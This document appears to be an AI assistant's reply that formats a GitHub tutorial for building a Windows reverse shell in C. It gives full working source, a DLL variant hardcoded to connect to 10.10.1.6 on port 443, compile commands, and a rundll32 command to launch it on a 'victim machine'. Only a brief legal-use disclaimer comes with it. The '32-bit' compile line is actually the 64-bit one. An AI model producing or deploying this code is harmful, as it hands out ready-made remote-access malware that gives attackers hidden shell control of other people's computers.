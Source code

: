 Here's a clean and structured **Markdown** (.md) version for your GitHub repository tutorial page:

```markdown
# Reverse Shell C Code Tutorial for Windows

This guide demonstrates how to create a reverse shell in C on Windows using Winsock2, compile it, and optionally wrap it into a DLL that can be executed remotely.

## **Code Walkthrough**

The following code creates a reverse shell that connects to a specified IP and port and then runs a command shell (`cmd.exe`) remotely over the network.

### **Code Explanation**

```c
#include <winsock2.h>
#include <windows.h>
#include <io.h>
#include <process.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/* ================================================== */
/* |     CHANGE THIS TO THE CLIENT IP AND PORT      | */
/* ================================================== */
#if !defined(CLIENT_IP) || !defined(CLIENT_PORT)
# define CLIENT_IP (char*)"0.0.0.0"
# define CLIENT_PORT (int)0
#endif
/* ================================================== */

int main(void) {
    // Check if the IP and Port are defined
    if (strcmp(CLIENT_IP, "0.0.0.0") == 0 || CLIENT_PORT == 0) {
        write(2, "[ERROR] CLIENT_IP and/or CLIENT_PORT not defined.\n", 50);
        return (1);
    }

    // Socket Initialization 
    WSADATA wsaData;
    if (WSAStartup(MAKEWORD(2 ,2), &wsaData) != 0) {
        write(2, "[ERROR] WSASturtup failed.\n", 27);
        return (1);
    }

    // Server Setup 
    int port = CLIENT_PORT;
    struct sockaddr_in sa;
    SOCKET sockt = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    sa.sin_family = AF_INET; // AF_INET: Internet address family (IPv4)
    sa.sin_port = htons(port); // Converts port to network byte order
    sa.sin_addr.s_addr = inet_addr(CLIENT_IP); // Converts CLIENT_IP to binary form (inet_addr)

    // Connect to the remote server
    if (connect(sockt, (struct sockaddr *) &sa, sizeof(sa)) != 0) {
        write(2, "[ERROR] connect failed.\n", 24);
        return (1);
    }

    // Redirect Input/Output to Socket
    STARTUPINFO sinfo;
    memset(&sinfo, 0, sizeof(sinfo));
    sinfo.cb = sizeof(sinfo);
    sinfo.dwFlags = (STARTF_USESTDHANDLES);
    sinfo.hStdInput = (HANDLE)sockt;
    sinfo.hStdOutput = (HANDLE)sockt;
    sinfo.hStdError = (HANDLE)sockt;
    PROCESS_INFORMATION pinfo;

    // Create the command shell process (cmd.exe)
    CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sinfo, &pinfo);
    return (0);
}
```

### **Key Components**

1. **Socket Initialization**
   - The code starts by initializing Winsock using `WSAStartup()`.
   
2. **Server Setup**
   - The `sockaddr_in` structure is configured to set up the connection parameters such as IP address and port.
   
3. **Establish Connection**
   - The `connect()` function establishes a connection to the target IP and port.

4. **Redirect Input/Output**
   - The `STARTUPINFO` structure is used to redirect standard input, output, and error streams to the socket.
   
5. **Process Creation**
   - `CreateProcessA()` is used to spawn the `cmd.exe` shell on the victim machine, which will interact with the attacker via the socket.

### **Alternative for PowerShell Reverse Shell**

You can replace `"cmd"` with `"powershell"` to launch PowerShell as a reverse shell instead of `cmd.exe`:

```c
CreateProcessA(NULL, "powershell", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sinfo, &pinfo);
```

---

## **Compile the C File to .exe**

You can compile the C file to a Windows executable using MinGW.

### **For 32-bit Windows Target:**

```bash
x86_64-w64-mingw32-gcc -o output.exe source.c -lws2_32
```

### **For 64-bit Windows Target:**

```bash
x86_64-w64-mingw32-gcc -o output.exe source.c -lws2_32
```

The `-lws2_32` flag links the **Winsock2** library, which is required for network-related APIs.

---

## **Compile the C File to .dll**

You can also compile the code into a DLL to be executed with `rundll32`.

### **Create the DLL:**

```c
#include <winsock2.h>
#include <windows.h>
#include <io.h>
#include <process.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

static int vbs(const char *CLIENT_IP, int CLIENT_PORT) {
    // Socket Initialization 
    WSADATA wsaData;
    if (WSAStartup(MAKEWORD(2 ,2), &wsaData) != 0) {
        write(2, "[ERROR] WSASturtup failed.\n", 27);
        return (1);
    }

    // Server Setup 
    int port = CLIENT_PORT;
    struct sockaddr_in sa;
    SOCKET sockt = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    sa.sin_family = AF_INET; // AF_INET: Internet address family (IPv4)
    sa.sin_port = htons(port); // Converts port to network byte order
    sa.sin_addr.s_addr = inet_addr(CLIENT_IP); // Converts CLIENT_IP to binary form (inet_addr)

    if (connect(sockt, (struct sockaddr *) &sa, sizeof(sa)) != 0) {
        write(2, "[ERROR] connect failed.\n", 24);
        return (1);
    }

    // Redirect Input/Output to Socket
    STARTUPINFO sinfo;
    memset(&sinfo, 0, sizeof(sinfo));
    sinfo.cb = sizeof(sinfo);
    sinfo.dwFlags = (STARTF_USESTDHANDLES);
    sinfo.hStdInput = (HANDLE)sockt;
    sinfo.hStdOutput = (HANDLE)sockt;
    sinfo.hStdError = (HANDLE)sockt;
    PROCESS_INFORMATION pinfo;

    // Create the command shell process (cmd.exe)
    CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sinfo, &pinfo);
    return (0);
}

void Function_name() {
    vbs("10.10.1.6", 443);
}
```

### **Compile the DLL:**

To compile the code into a DLL, use:

```bash
x86_64-w64-mingw32-gcc -o reverse.dll reversedll.c -lws2_32 -shared
```

---

## **Export Function from DLL**

You can inspect the exported functions of the DLL using the `pefile` Python module.

### **Using `pefile` to List DLL Exports:**

```bash
python -m pefile exports reverse.dll
```

This will output a list of exported functions from the DLL, like:

```bash
0x3a8c11541 b'Function_name' 1
```

---

## **Test the DLL File Manually**

To test the DLL manually from the victim machine, use the following command:

```bash
rundll32 reverse.dll,Function_name
```

This will invoke the function `Function_name()` inside the `reverse.dll` and execute the reverse shell.

---

## **Conclusion**

This guide demonstrated how to create a reverse shell in C, compile it into a Windows executable or DLL, and run it remotely. The core of this process involves setting up a socket connection and redirecting input/output to that socket. You can adapt this method to other tasks, such as creating a remote command execution tool or experimenting with PowerShell.

---

### **Important Note**

This code should be used in a legal and ethical context only, such as in penetration testing environments where you have permission to test security vulnerabilities.
```

---

This Markdown document will look clean and organized when rendered on GitHub. It clearly explains each code block and provides instructions for compiling the C code into a `.exe` or `.dll`.
